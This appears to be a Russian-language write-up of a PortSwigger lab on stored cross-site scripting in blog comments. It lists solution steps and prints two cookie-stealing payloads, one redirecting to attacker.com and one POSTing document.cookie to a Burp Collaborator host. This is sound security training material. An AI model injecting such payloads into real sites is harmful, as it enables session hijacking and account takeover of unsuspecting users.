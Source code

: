 Эта лаборатория содержит сохраненную уязвимость XSS в функции комментариев блога. Имитируемый пользователь-жертва просматривает все комментарии после их публикации. Чтобы решить эту лабораторную работу, воспользуйтесь уязвимостью, чтобы извлечь сеансовый cookie жертвы, а затем используйте этот cookie, чтобы выдать себя за жертву.

## Дано

 - Уязвимость межсайтового скриптинга
 - Находится в функциональности комментариев.
## Задача

- извлечь сеансовый cookie жертвы

# Решение

1. Просмотреть настройки куки `httponly` false - значит доступ к куки есть на js
2. Ищем в коментах xss
3. В написание комента есть инъекция сохранённая
4. Пишем PoC
```
<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
```


![[Pasted image 20250225115502.png]]

PortSwigger предлагает чутка иной скрипт 
```
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
- "Более современный и гибкий подход", позволяет отправлять данные без необходимости перенаправления пользователя.
- Может работать даже если у пользователя нет возможности перейти по ссылке (например, если он не заметит переход).